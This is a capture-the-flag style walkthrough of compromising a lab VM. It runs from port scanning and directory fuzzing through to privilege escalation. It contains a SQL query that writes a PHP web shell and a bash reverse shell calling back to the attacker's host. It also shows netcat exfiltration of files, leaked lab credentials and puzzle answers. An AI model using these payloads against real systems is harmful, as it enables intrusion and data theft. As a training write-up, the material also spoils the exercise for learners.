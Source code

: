 ## Enumeration

### ping sweep

```
$ nmap -sn -o nmap/ping-sweep.txt 192.168.0.0/24
...
Nmap scan report for 192.168.0.6
Host is up (0.00068s latency).
...
```

### nmap scan


```
$ nmap -sV -oN nmap/sv.txt 10.0.0.5
...
21/tcp  open  ftp      vsftpd 2.0.8 or later
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap     Dovecot imapd
443/tcp open  ssl/http Apache httpd 2.2.22
993/tcp open  ssl/imap Dovecot imapd
...
```

### port 80

http://192.168.0.6/

![](assets/00.png)

### port 443

https://192.168.0.6/

![](assets/01.png)

Directory fuzzing

```
$ ffuf -u https://192.168.0.6/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
...
cgi-bin/                [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 6ms]
forum                   [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 1ms]
phpmyadmin              [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 2ms]
server-status           [Status: 403, Size: 290, Words: 21, Lines: 11, Duration: 0ms]
webmail                 [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 1ms]
...
```

**https://192.168.0.6/forum/**

```
$ ffuf -u https://192.168.0.6/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
...
modules                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 5ms]
templates_c             [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 0ms]
themes                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 1ms]
update                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 0ms]
...
```

Users at https://192.168.0.6/forum/index.php?mode=user

![](assets/02.png)

Password at https://192.168.0.6/forum/index.php?id=6

![](assets/03.png)

Logged in using `lmezard:!q\]Ej?*5K5cy*AJ`

Email address at https://192.168.0.6/forum/index.php?mode=user&action=edit_profile

![](assets/04.png)

**https://192.168.0.6/webmail/**

Logged in using `laurie@borntosec.net:!q\]Ej?*5K5cy*AJ`

Database credentials at an email

![](assets/05.png)

**https://192.168.0.6/phpmyadmin/**

Logged in using `root:Fg-'kKXBj87E:aJ$`

![](assets/06.png)

Write php file on `/var/www/forum/templates_c/` using this sql query

```
SELECT '<?php phpinfo();?>' INTO OUTFILE '/var/www/forum/templates_c/info.php'
```

![](assets/07.png)

Browsed to https://192.168.0.6/forum/templates_c/info.php

![](assets/08.png)

## Initial access

Create a php script to get a reverse shell

```
SELECT '<?php system("bash -c \'bash -i >& /dev/tcp/192.168.0.5/9000 0>&1\'");?>' INTO OUTFILE '/var/www/forum/templates_c/shell.php'
```

Started a listener

```
$ nc -lnp 9000
```

Browsed to https://192.168.0.6/forum/templates_c/shell.php and got a shell

![](assets/09.png)

Logged in as `www-data`

Stabilize our shell

```
target$ python -c 'import pty; pty.spawn("/bin/bash")'
target$ Ctrl+Z
attack$ stty -a
speed 38400 baud; rows 53; columns 237; line = 0;
...
attack$ stty raw -echo; fg
target$ export TERM=xterm
target$ stty rows 53 columns 237
```

## Privilege escalation

**www-data -> lmezard**

credentials were found at `/home/LOOKATME/password`: `lmezard:G!@M6f4Eatau{sF"`

![](assets/10.png)

```
$ su lmezard
Password: G!@M6f4Eatau{sF"
```

![](assets/11.png)

**lmezard -> laurie**

Exfiltrated tar archive `fun` to our machine and extracted it

```
attack$ nc -lnp 9000 > loot/fun
target$ cat fun | nc 192.168.0.5 9000
attack$ tar xf fun
```
The extracted folder `ft_fun` contained a lot of files with the extension `pcap`, one of these files contained the following `main()`

```c
int main() {
        printf("M");
        printf("Y");
        printf(" ");
        printf("P");
        printf("A");
        printf("S");
        printf("S");
        printf("W");
        printf("O");
        printf("R");
        printf("D");
        printf(" ");
        printf("I");
        printf("S");
        printf(":");
        printf(" ");
        printf("%c",getme1());
        printf("%c",getme2());
        printf("%c",getme3());
        printf("%c",getme4());
        printf("%c",getme5());
        printf("%c",getme6());
        printf("%c",getme7());
        printf("%c",getme8());
        printf("%c",getme9());
        printf("%c",getme10());
        printf("%c",getme11());
        printf("%c",getme12());
        printf("\n");
        printf("Now SHA-256 it and submit");
}
```

Extracted the password for `laurie` using this script

```bash
#!/bin/bash

for i in `seq 1 3`
do
        for f in `ls loot/ft_fun/*.pcap`
        do
                cat $f
                echo " $f"
        done | egrep "file[0-9]{$i}\s" | sort | cut -d ' ' -f2 | xargs cat | egrep -o 'return.*'
done | cut -d "'" -f 2 | tr -d '\n' | sha256sum
```

Logged in as `laurie` using SSH with the password: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

**laurie -> thor**

reversing `bomb`

```
Public speaking is very easy.
1 2 6 24 120 720
1 b 214
9
opekmq
4 2 6 3 1 5
```

The password is : `Publicspeakingisveryeasy.126241207201b2149opekmq426135`
